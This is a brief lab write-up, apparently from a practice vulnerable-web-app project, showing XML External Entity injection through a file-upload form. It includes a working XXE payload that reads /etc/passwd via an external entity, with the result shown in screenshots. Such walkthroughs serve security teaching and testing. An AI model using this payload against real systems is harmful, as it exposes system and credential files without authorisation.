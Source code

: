 # XXE - External Entities Injection

- We have got a file upload feature.

![image](https://github.com/thesinghsec/WebVulnLab/assets/126919241/535cac51-9049-459b-9050-a63d4a984df1)

- make a file with a username and password in the form of an XML file.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<creds>
    <user>testuser</user>
    <password>testpass</password>
</creds>
```
- while uploading the file we got the username and password.

![image](https://github.com/thesinghsec/WebVulnLab/assets/126919241/12ebc9c5-12a4-4cb5-a0e2-8bbc9026cbad)

- Now, we will parse an XML file which will return us the passwd file.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE creds [
<!ELEMENT creds ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<creds><user>&xxe;</user><password>pass</password></creds>
```
- On uploading the file we got data of the passwd file back.

![image](https://github.com/thesinghsec/WebVulnLab/assets/126919241/ddedf793-91a2-409d-a5e8-5a1e92e03612)

- To view it more neatly, we will switch to the view source by using ctrl+U.

![image](https://github.com/thesinghsec/WebVulnLab/assets/126919241/6795fc3f-2137-4bc3-aa9c-db206c930f11)
